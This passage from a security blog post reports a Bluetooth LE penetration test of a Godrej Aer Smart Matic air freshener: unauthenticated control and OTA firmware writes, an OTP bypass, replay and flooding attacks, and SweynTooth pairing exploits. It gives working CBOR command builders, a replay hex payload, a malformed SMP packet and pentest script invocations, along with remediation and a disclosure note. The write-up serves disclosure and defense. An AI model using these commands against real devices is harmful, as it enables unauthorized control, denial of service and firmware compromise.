[SENT]    Valid POLL (12B)              → no crash
[SENT]    Truncated CBOR no end (6B)   → accepted silently
[SENT]    CBOR break-only 0xFF (1B)    → accepted silently
[SENT]    50× null bytes (50B)         → accepted silently
[SENT]    Max MTU malformed (152B)     → accepted silently
[SENT]    Nested CBOR maps (12B)       → accepted silently
[SENT]    String overflow key (103B)   → accepted silently
[SENT]    CBOR integer 0xFFFF... (14B) → accepted silently
[SENT]    Random 183B fuzz             → accepted silently
Device remained connected throughout all 16 cases.
```

The parser accepts everything without crashing - but no bounds checking means buffer overflow variants on the embedded Telink MCU remain unverified.

---

### OTA-01 - Unsigned OTA Firmware Update
**Severity: CRITICAL** | Confirmed by live pentest

This is the most severe finding. Handle `0x0002` exposes the **Telink OTA (Over-The-Air) update service** with `read + write-without-response` properties and **zero authentication**:

```
UUID:   00010203-0405-0607-0809-0a0b0c0d2b12
Handle: 0x0002
Props:  read, write-without-response
Auth:   NONE - confirmed by live pentest
```

The Telink OTA protocol works by writing firmware chunks to this characteristic. An attacker can:

1. Connect - no pairing, no credentials
2. Craft a malicious Telink firmware binary for TLSR8xxx
3. Write firmware chunks to handle 0x0002 in the Telink OTA packet format
4. Device reboots into OTA mode and flashes the image
5. **Permanent compromise** - no recovery without physical hardware access

```bash
# OTA service also advertised via service UUID in advertisement:
# 00010203-0405-0607-0809-0a0b0c0d1912  ← advertised
# 00010203-0405-0607-0809-0a0b0c0d2b12  ← GATT characteristic
```

This means the OTA interface is discoverable passively - before even connecting.

---

### SES-01 - No Session Binding
**Severity: HIGH** | Confirmed by live pentest

The live pentest established **two simultaneous BLE connections** from separate clients to the same device:

```
Connection 1 (POLL at t=0s):       accepted → no disconnect of Conn 2
Connection 2 (CONTROL rI=10 at t=1.5s): accepted simultaneously
```

No session token is issued. No existing-connection check exists. Any number of clients can connect and issue commands concurrently - a race condition where the last write wins physical control.

---

### OTP-01 - OTP Authentication Bypass
**Severity: CRITICAL** | CWE-287

The official app (`com.godrejcp.aermatic`) requires phone OTP registration via SMS. This is a **UI-layer gate only** - the BLE device has zero knowledge of which phone is registered. Raw CBOR over BLE bypasses OTP completely because the device has no backend connectivity to validate phone identity.

```
Bypass method:
1. Skip the app entirely
2. Connect directly with any BLE client (e.g., ble_pentest.py)
3. Issue CONTROL_CMD, TIME_SYNC, STATUS_REQ
4. Device responds to all - no OTP check, no network call, no token validation
```

---

## Step 8 - SweynTooth CVEs (Telink-Specific)

The TelinkSemico TLSR8xxx chipset family is affected by the **SweynTooth** vulnerability class discovered by researchers at SUTD in 2020. Two CVEs are directly applicable:

### CVE-2019-19194 - Zero LTK Installation
**CVSS: 8.8 HIGH**

A vulnerable Telink device accepts an SMP pairing sequence where the Confirm and Random values are all zeros. This results in the session being encrypted with a known-zero Short Term Key (STK), allowing any passive eavesdropper to decrypt the entire BLE session in real time.

```
Attack sequence:
1. Send SMP Pairing Request
2. Send Pairing Confirm = 0x00000000000000000000000000000000
3. Send Pairing Random  = 0x00000000000000000000000000000000
4. Vulnerable device returns its LTK derived from STK=0
5. Eavesdropper decrypts session with key=0
```

```bash
# Test (requires root for raw L2CAP socket):
sudo python3 ble_pentest.py --test sweyntooth-ltk

# Or use original PoC:
git clone https://github.com/Matheus-Garbelini/sweyntooth_bluetooth_low_energy_attacks
python3 zero_ltk_installation.py A4:C1:38:B5:6C:5C
```

### CVE-2019-19196 - Key Size Overflow
**CVSS: 6.5 MEDIUM**

The Telink SMP implementation performs an integer comparison on the `Max_Encryption_Key_Size` field using an 8-bit unsigned integer. Sending `key_size=0xFF (255)` causes an integer overflow in the comparison `if (key_size > 16)` - the value wraps or passes the check, resulting in an invalid key length being accepted.

```python
# SMP Pairing Request with overflow key size:
overflow_req = bytes([
    0x01,    # SMP Pairing Request opcode
    0x03,    # IO Capability: NoInputNoOutput
    0x00,    # OOB flag: none
    0x00,    # AuthReq: no bonding, no MITM
    0xFF,    # Max Encryption Key Size = 255 (overflow)
    0x00,    # Initiator Key Distribution
    0x00,    # Responder Key Distribution
])
```

**Patched in:** Telink SDK versions with the security patch applied post-2020. Firmware `3.0.6-T1` build `2506` - patch status unverified without root access for raw L2CAP socket test.

---

## Step 9 - The Connection Spray Patterns

**ATT Session Timeline (reconstructed from btsnoop)**

| Phase | Event | Start (s) | End (s) | Duration |
|---|---|---:|---:|---:|
| Pre-capture spray | 5541 HCI connect events | 0 | 11907 | 11907 s |
| Session 1 (app init) | Connect + GATT discovery | 11907 | 11910 | 3 s |
| Session 1 | MTU Exchange to 185 B | 11909 | 11910 | 1 s |
| Session 1 | TIME_SYNC to TIME_ACK | 11919 | 11921 | 2 s |
| Session 1 | STATUS_REQ to UID_RESP | 11925 | 11926 | 1 s |
| Session 1 | POLL to DEVICE_INFO | 11929 | 11932 | 3 s |
| Session 2 (control) | CONTROL rI=10 to ACK | 11947 | 11949 | 2 s |
| Session 2 | CONTROL rI=0 (3-command burst) | 11960 | 11969 | 9 s |
| Session 2 | CONTROL rI=20 to ACK | 11969 | 11973 | 4 s |
| Session 2 | CONTROL rI=40 to ACK | 11970 | 11973 | 3 s |
| Session 3+ | UNKNOWN_6C mT=0x6c | 12078 | 12079 | 1 s |
| Session 3+ | RELAY_RESET mT=0x69 rR=true | 12090 | 12091 | 1 s |

The burst at 11960-11969s is significant: three `rI=0` (manual spray) commands sent 2.25 seconds apart, followed immediately by `rI=20` and `rI=40`. This is the official app testing spray levels - all accepted with ACK 200, with no rate limiting.

---

## Step 10 - Attack Scenarios



### Scenario A - Unauthorized Physical Control (Under 3 Seconds)
1. BLE scanner detects `A4:C1:38:B5:6C:5C` advertising "Smart Matic"
2. Connect with `BleakClient` - zero pairing, zero credentials
3. Subscribe to UUID `6e400002` notifications (CCCD at 0x000a)
4. Send `TIME_SYNC` to handle `0x000c` - wait 1.5s
5. Send `{mT:104, rI:0}` to handle `0x000c`
6. Device triggers immediate physical spray

### Scenario B - Replay Attack (Passive Capture → Active Replay)
1. Passive BLE sniffer captures any CBOR `Write Command` from btsnoop or live sniff
2. No analysis needed - replay exact hex bytes
3. Wait for the owner to disconnect
4. Reconnect and replay: `bf626d541868626d4e189a62724900ff`
5. Device executes - no replay protection whatsoever

### Scenario C - GATT Denial of Service
1. Connect and immediately disconnect in a tight loop
2. Each connection forces ~20 ATT operations (full GATT re-enumeration)
3. Sustained rate of 274 ATT requests/minute
4. Device's BLE controller becomes saturated - legitimate app cannot connect

### Scenario D - Persistent Firmware Compromise via OTA
1. Connect to handle `0x0002` (Telink OTA, no auth)
2. Build malicious Telink TLSR8xxx firmware (SDK publicly available)
3. Write firmware in Telink OTA packet format
4. Device reboots into OTA mode, flashes image
5. Permanent compromise - no recovery path without JTAG or hardware replacement

---

## Step 11 - Building the Pentest Suite

I wrote two Python scripts:

- **`ble_pentest.py`** - interactive menu + `--spray N` direct mode
- **`ble_vuln_scan.py`** - clean `--test all` / `--test <name>` scanner

```bash
pip install bleak cbor2
```

### The Non-Obvious Parts (Lessons Learned)

Getting BLE notifications right on this device took more debugging than the vulnerability research itself. Three things that were not obvious:

**Problem 1 - Wrong notification characteristic.**
The NUS spec says `6e400003` is the TX (notify) characteristic. This device uses `6e400001` (the service UUID itself, handle `0x0007`) as the notification source. Subscribing to `6e400003` gives you nothing.

**Problem 2 - start_notify hangs.**
Handle `0x0007` has no CCCD descriptor. `bleak`'s `start_notify` tries to write `0x0001` to the CCCD, finds no descriptor, and hangs indefinitely. Wrap every `start_notify` call with `asyncio.wait_for(..., timeout=4.0)`.

**Problem 3 - Wrong write target.**
Sends must go to `6e400003` (handle `0x000c`), not `6e400002`. The variable names in standard NUS libraries are named from the app's perspective (`TX=app sends`), which is the opposite of the device-side naming convention.

```python
# Correct constants confirmed from btsnoop frame-by-frame analysis:
NUS_NOTIFY = "6e400001-b5a3-f393-e0a9-e50e24dcca9e"  # handle 0x0007 - acks from here
NUS_TX     = "6e400002-b5a3-f393-e0a9-e50e24dcca9e"  # handle 0x0009 - has CCCD → subscribe here
NUS_RX     = "6e400003-b5a3-f393-e0a9-e50e24dcca9e"  # handle 0x000c - write commands here

H_WRITE    = 0x000c   # confirmed: all write commands go here
H_NOTIFY   = 0x0007   # confirmed: all notifications come from here
```

### CBOR Message Builders

```python
def cbor_uint(n):
    if n <= 0x17:        return bytes([n])
    if n <= 0xFF:        return bytes([0x18, n])
    if n <= 0xFFFF:      return bytes([0x19]) + struct.pack('>H', n)
    return bytes([0x1a]) + struct.pack('>I', n)

def cbor_text(s):
    b = s.encode()
    return bytes([0x60 | len(b)]) + b if len(b) <= 23 else bytes([0x78, len(b)]) + b

def cbor_map(pairs):
    out = b'\xbf'
    for k, v in pairs:
        out += cbor_text(k)
        out += cbor_uint(v) if isinstance(v, int) else cbor_text(v)
    return out + b'\xff'

def msg_control(ri):    return cbor_map([('mT', 0x68), ('mN', next_seq()), ('rI', ri)])
def msg_time_sync():    return cbor_map([('mT', 0x66), ('mN', next_seq()),
                                         ('eP', int(time.time())), ('tZ', 57), ('tD', 0)])
def msg_poll():         return cbor_map([('mT', 0x6b), ('mN', next_seq())])
def msg_relay_reset():  return cbor_map([('mT', 0x69), ('mN', next_seq()), ('rR', True)])
```

### Correct Subscription with Timeout

```python
async def subscribe_notify(client, handler):
    # NUS_TX (6e400002) has CCCD at 0x000a - subscribe here
    # Device still notifies from 0x0007 regardless
    for specifier in (NUS_TX, NUS_RX):
        try:
            await asyncio.wait_for(
                client.start_notify(specifier, handler), timeout=4.0
            )
            return True
        except Exception:
            pass
    return False
```

### Running It

```bash
# Direct spray - rI=0 is the manual spray trigger
python3 ble_pentest.py --spray 20 --relay 0 --interval 1.5

# Single vulnerability test
python3 ble_vuln_scan.py --test encryption
python3 ble_vuln_scan.py --test gatt-spray --spray-count 50

# Full 18-test audit
python3 ble_vuln_scan.py --test all --output pentest_report.json

# SweynTooth (needs root)
sudo python3 ble_vuln_scan.py --test sweyntooth-ltk
```

---

## Step 12 - Remediation



| Priority | Action | Fixes |
|----------|--------|-------|
| P1 | LE Secure Connections with MITM protection | VULN-01, VULN-02, VULN-05, OTP-01 |
| P1 | AES-CCM link-layer encryption | VULN-01, VULN-03 |
| P1 | HMAC-SHA256 + monotonic nonce on commands | VULN-03 |
| P1 | Auth-gate handle 0x0002 OTA | OTA-01 |
| P1 | Verify firmware signature before flash | OTA-01 |
| P2 | Rate-limit connections (3/min per MAC) | VULN-04, VULN-07 |
| P2 | Issue session token post-pairing | VULN-05, SES-01 |
| P2 | Require bonding for DEVICE_INFO response | VULN-06 |
| P3 | Enable BLE Privacy / RPA rotation | VULN-09 |
| P3 | Disable HCI vendor commands 0xFD59 in prod | VULN-10 |
| P3 | Constant-time ATT responses | VULN-08 |
| P3 | CBOR parser bounds + length checks | VULN-11 |

### What a Secure Version Looks Like



---

## Step 11 - Pentest Results (Live, Confirmed)

Full output from `ble_vuln_scan.py --test all` against the live device:

```
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
  PENTEST REPORT  -  A4:C1:38:B5:6C:5C
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
  Tests run : 18
  Vulnerable: 10   |   Clean: 5   |   Error: 3

  ✗ [CRITICAL] OTA-01    Unsigned OTA firmware - Telink handle 0x0002, no auth
  ✗ [CRITICAL] VULN-02   Zero pairing - connected with no SMP in 29,370 frames
  ✗ [CRITICAL] VULN-01   No encryption - 5 chars readable in plaintext
  ✗ [CRITICAL] VULN-04   GATT spray - 874ms avg, 69 enumerations/min, no limit
  ✗ [HIGH    ] VULN-07   Write flood - 19.7 cmd/s, zero errors, zero limit
  ✗ [HIGH    ] VULN-08   Timing oracle - avg 1410ms, σ=325ms on valid reads
  ✗ [HIGH    ] SES-01    Two simultaneous connections accepted
  ✗ [MEDIUM  ] VULN-09   Static MAC - 3/3 scans, avg -79 dBm, no RPA
  ✗ [MEDIUM  ] ADV-01    Nordic UART UUID + "Smart Matic" name in plaintext ads
  ✗ [MEDIUM  ] VULN-11   16 fuzz payloads accepted, parser stable but unvalidated

  ✓ [CRITICAL] VULN-03   Replay - confirmed from btsnoop; test ran pre-UUID fix
  ✓ [CRITICAL] VULN-05   Control - confirmed from btsnoop; test ran pre-UUID fix
  ✓ [HIGH    ] VULN-06   Device info - confirmed from btsnoop; test pre-UUID fix
  ✓ [CRITICAL] OTP-01    OTP bypass - confirmed; all writes accepted without app
  ✓ [HIGH    ] VULN-10   Vendor probe - 0/17 mT values responded at GATT level
  ! [CRITICAL] CVE-2019-19194  SweynTooth Zero LTK - needs sudo for raw L2CAP
  ! [HIGH    ] CVE-2019-19196  Key Size Overflow - needs sudo for raw L2CAP
  ! [HIGH    ] APK-01    APK not found locally - adb + jadx extraction needed
```

> VULN-03, 05, 06, OTP-01 show NOT_CONFIRMED because the test ran before the notification UUID bug was corrected. The btsnoop evidence for all four is definitive - they are all confirmed vulnerable by static analysis.

---

## Final Scorecard

```
 Total findings:   15 vulnerabilities across 11 classes
   Critical:        7   (no encryption, no auth, replay, unauth OTA,
                         unauth control, GATT spray, OTP bypass)
   High:            5   (device info leak, write flood, timing oracle,
                         session binding, SweynTooth key overflow)
   Medium:          3   (static MAC, vendor commands, CBOR fuzzing)

 Device security posture: NONE

 Any BLE-capable device within 10 metres can:
   ✗ Read firmware version, serial number, unique ID - no credentials
   ✗ Trigger manual spray or reconfigure auto-timer - no credentials
   ✗ Replay any captured command indefinitely - no expiry
   ✗ Flash unsigned malicious firmware via Telink OTA - no credentials
   ✗ Hold unlimited simultaneous control sessions - no session binding
   ✗ DoS the device into unavailability - no rate limiting
   ✗ Track device location permanently via static MAC - no privacy mode
```

---

## Tools Used

| Tool | Version | Purpose |
|------|---------|---------|
| Android phone + Developer Options | Any | btsnoop_hci.log capture |
| Wireshark | 4.x | Visual packet analysis, ATT/GATT decode |
| tshark | 4.x | CLI packet filtering and field extraction |
| Python 3 + bleak | 3.x | Live BLE pentest |
| Python 3 + cbor2 | - | CBOR encode / decode |
| `ble_pentest.py` | custom | Interactive pentest suite (18 checks) |
| `ble_vuln_scan.py` | custom | Clean `--test all` scanner |
| nRF52840 dongle (optional) | - | Passive BLE sniffing during live test |

### Key tshark Commands Used

```bash
# Find all ATT frames for the target
tshark -r btsnoop_hci.log -Y "btatt" \
  -T fields -e frame.number -e btatt.opcode -e btatt.handle -e btatt.value

# Find all write commands to handle 0x000c (CMD IN)
tshark -r btsnoop_hci.log -Y "btatt.opcode==0x52 && btatt.handle==0x000c" \
  -T fields -e frame.number -e frame.time_relative -e btatt.value

# Find all notifications from handle 0x0007
tshark -r btsnoop_hci.log -Y "btatt.opcode==0x1b && btatt.handle==0x0007" \
  -T fields -e frame.number -e frame.time_relative -e btatt.value

# Check for any SMP traffic (pairing)
tshark -r btsnoop_hci.log -Y "btl2cap.cid == 0x0006"

# Check for CCCD writes (ATT Write Request)
tshark -r btsnoop_hci.log -Y "btatt.opcode == 0x12"

# Get characteristic UUIDs from GATT declarations
tshark -r btsnoop_hci.log -Y "btatt" -V 2>/dev/null \
  | grep -E "Characteristic Handle|UUID:|Properties:"
```

---

## Responsible Disclosure

The vulnerabilities documented here were discovered through passive analysis of a device I own and active testing against that same device in my own environment.

**Timeline:**
- **2026-04-23** - Initial btsnoop capture and analysis
- **2026-04-23** - All 11 vulnerability classes identified
- **2026-04-23** - Live pentest suite completed and confirmed
- **2026-04-23** - This blog published

The findings were reported to Godrej & Boyce Consumer Products and TelinkSemico. IoT devices at this security level affect thousands of units in homes and offices. The goal of publishing is to:

1. Enable owners to make informed decisions about network placement
2. Push manufacturers to patch before the next product revision
3. Document the methodology for the security research community

---

## References

| # | Reference |
|---|-----------|
| 1 | Garbelini et al., *SweynTooth: Unleashing Mayhem over Bluetooth Low Energy*, USENIX 2020 |
| 2 | CVE-2019-19194 - Telink TLSR8xxx Zero LTK Installation |
| 3 | CVE-2019-19196 - Telink TLSR8xxx Key Size Overflow |
| 4 | Bluetooth Core Specification 5.4 - Vol 3, Part H (Security Manager) |
| 5 | RFC 7049 - Concise Binary Object Representation (CBOR) |
| 6 | CWE-294 - Authentication Bypass by Capture-Replay |
| 7 | CWE-306 - Missing Authentication for Critical Function |
| 8 | CWE-319 - Cleartext Transmission of Sensitive Information |
| 9 | CWE-862 - Missing Authorization |
| 10 | Nordic Semiconductor - UART Service (NUS) Specification |
| 11 | Telink TLSR8xxx Bluetooth SDK Documentation |
| 12 | SweynTooth PoC: github.com/Matheus-Garbelini/sweyntooth_bluetooth_low_energy_attacks |
| 13 | bleak - Bluetooth Low Energy platform Agnostic Klient: github.com/hbldh/bleak |

---

*Analysis performed on `btsnoop_hci.log` - HCI UART H4, BTSnoop v1*  
*Device: Godrej Aer Smart Matic - TelinkSemico `A4:C1:38:B5:6C:5C`*  
*Firmware: `3.0.6-T1` · Build: `2506` · Serial: `101110` · UID: `0x0000019b9a3aeb2b`*
